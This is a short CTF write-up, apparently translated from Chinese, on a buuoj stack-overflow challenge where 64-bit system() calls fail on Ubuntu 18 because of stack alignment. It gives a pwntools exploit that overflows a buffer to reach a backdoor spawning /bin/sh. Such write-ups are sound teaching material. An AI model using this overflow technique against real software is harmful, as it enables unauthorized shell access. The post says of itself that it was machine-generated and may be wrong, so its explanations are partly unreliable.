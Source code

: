 ```yaml
---
title: Issues that may occur when calling system in 64-bit ELF in Ubuntu18 (「Pwn」Ubuntu18 中64位ELF在调用system时候可能出现的问题)
date: 2022-03-31
tags: ['Pwn', cheatsheet, CTF]
authors: [nova]

---
```


# Issues that may occur when calling system in 64-bit ELF in Ubuntu18

Recently, when I set up Ubuntu18 and was testing it, I encountered a problem.

After researching for a long time, I finally solved it and decided to take some notes.

[Challenge -- Buuoj -- RIP](https://buuoj.cn/challenges#rip)

<!--truncate-->

### Problem

This challenge is a basic stack overflow problem. There is a backdoor function that directly calls `system("/bin/sh");` with no protections enabled. In theory, overwriting the return address should be sufficient.

Indeed, it worked fine during local testing, but issues arose during remote testing.

Upon further investigation, I discovered that when a 64-bit ELF program in Ubuntu18 or later calls the system function, stack balance needs to be considered in libc.

### Solution

Changing the payload length or performing stack pivoting can resolve this issue.

The main idea is to change the stack address.

Here is an example exploit:

```python
from pwn import *
context(log_level='debug', arch='amd64', os='linux')

# sh = process("./pwn1")
sh = remote("node4.buuoj.cn", 29726)

# sh.recvuntil('please input\n')

backdoor_addr = 0x0401186
# payload = b'a'*(0xf+8) + p64(backdoor_addr) # Normal idea, but due to alignment issues, it will fail
# payload = b'a'*0xf + p64(backdoor_addr) # Exploit 1, not very clear why this works:<
# payload = b'a'*(0xf+8) + p64(backdoor_addr) + p64(backdoor_addr - 1) # Exploit 2, backdoor_addr - 1 corresponds to a 'retn', can be replaced with others for stack balance
payload = b'a'*(0xf+8) + p64(backdoor_addr + 1) # Exploit 3, +1 aligns the address checked for alignment to 0x10 in call_system function
"""
It doesn't have to be +1. Aligning up to 16 times should work. If not, try stack pivoting.
"""
sh.sendline(payload)
sh.interactive()
```

### In-depth Analysis

Here, I plan to delve into the stack at this point, which also serves as an initial exploration of gdb.

> Oh no, it seems like gdb in Ubuntu18 is not working properly. I'll add more details once it's fixed:&lt;



## Reference Blogs

[Issues with calling system function in some 64-bit glibc payloads](http://blog.eonew.cn/archives/958)

[Stack balance issues involved in ret2text](https://blog.csdn.net/qq_41560595/article/details/112161243)

[Solving the program coredump issue caused by MOVAPS instruction after upgrading to gcc7.3](https://www.pianshen.com/article/8326860581/)

:::info
This Content is generated by ChatGPT and might be wrong / incomplete, refer to Chinese version if you find something wrong.
:::

<!-- AI -->
